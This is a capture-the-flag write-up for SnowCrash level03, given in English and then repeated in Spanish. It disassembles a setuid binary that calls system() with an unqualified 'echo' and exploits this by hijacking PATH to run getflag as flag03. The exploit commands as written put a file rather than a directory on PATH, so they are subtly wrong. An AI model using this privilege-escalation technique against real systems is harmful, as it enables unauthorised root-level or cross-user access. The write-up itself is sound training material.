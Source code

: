 ### LEVEL03
- ls -la 
    ```bash
        [...]
        -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
        [...]
        level03@SnowCrash:~$ file level03
        level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
    ``` 
- The file level03 has SUID permissions, so when it's executed, it runs as if it were the user flag03.

- objdump -d level03
- objdump -d level03
    ```asm
        080484a4 <main>:
        80484a4:	55                   	push   %ebp
        80484a5:	89 e5                	mov    %esp,%ebp
        80484a7:	83 e4 f0             	and    $0xfffffff0,%esp
        80484aa:	83 ec 20             	sub    $0x20,%esp
        80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
        80484b2:	89 44 24 18          	mov    %eax,0x18(%esp)
        80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
        80484bb:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        80484bf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484c3:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484c7:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484cb:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484cf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484d3:	89 04 24             	mov    %eax,(%esp)
        80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
        80484db:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484df:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484e3:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484e7:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484eb:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484ef:	89 04 24             	mov    %eax,(%esp)
        80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
        8048503:	c9                   	leave
        [...]
    ```
- We see that it calls the `system` function:
    ```asm
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
   ``` 
- With GDB, we can view the content of the parameter passed to the `system()` function.
    ```asm
        gdb x/s 0x80485e0
        0x80485e0:	"/usr/bin/env echo Exploit me"
    ```

- We see that it executes `echo` without a path, which allows for a path hijacking to execute any command as the flag03 user.
    ```bash
        echo "/bin/getflag" > /tmp/echo
        export PATH=/tmp/echo:$PATH
        chmod 777 /tmp/echo
        ./level03
    ```

---

### LEVEL03
- ls -la 
    ```bash
        [...]
        -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
        [...]
        level03@SnowCrash:~$ file level03
        level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
    ``` 

- El archivo level03 tiene permisos SUID por lo cual cuando se ejecuta como si fuera el usuario flag03

- objdump -d level03
    ```asm
        080484a4 <main>:
        80484a4:	55                   	push   %ebp
        80484a5:	89 e5                	mov    %esp,%ebp
        80484a7:	83 e4 f0             	and    $0xfffffff0,%esp
        80484aa:	83 ec 20             	sub    $0x20,%esp
        80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
        80484b2:	89 44 24 18          	mov    %eax,0x18(%esp)
        80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
        80484bb:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        80484bf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484c3:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484c7:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484cb:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484cf:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484d3:	89 04 24             	mov    %eax,(%esp)
        80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
        80484db:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484df:	89 44 24 08          	mov    %eax,0x8(%esp)
        80484e3:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484e7:	89 44 24 04          	mov    %eax,0x4(%esp)
        80484eb:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484ef:	89 04 24             	mov    %eax,(%esp)
        80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
        8048503:	c9                   	leave
        [...]
    ```

- Vemos que se llama a `system`:
    ```asm
        80484f7:	c7 04 24 e0 85 04 08 	movl   $0x80485e0,(%esp)
        80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
   ``` 
- Con gdb podemos ver el contenido de el parametro que se pasa a la función system()
    ```asm
        gdb x/s 0x80485e0
        0x80485e0:	"/usr/bin/env echo Exploit me"
    ```
- Vemos que ejecuta echo sin ruta lo que permite hacer un secuestro de path para poder ejecutar como usuario flag03 cualquier comando
    ```bash
        echo "/bin/getflag" > /tmp/echo
        export PATH=/tmp/echo:$PATH
        chmod 777 /tmp/echo
        ./level03
    ```

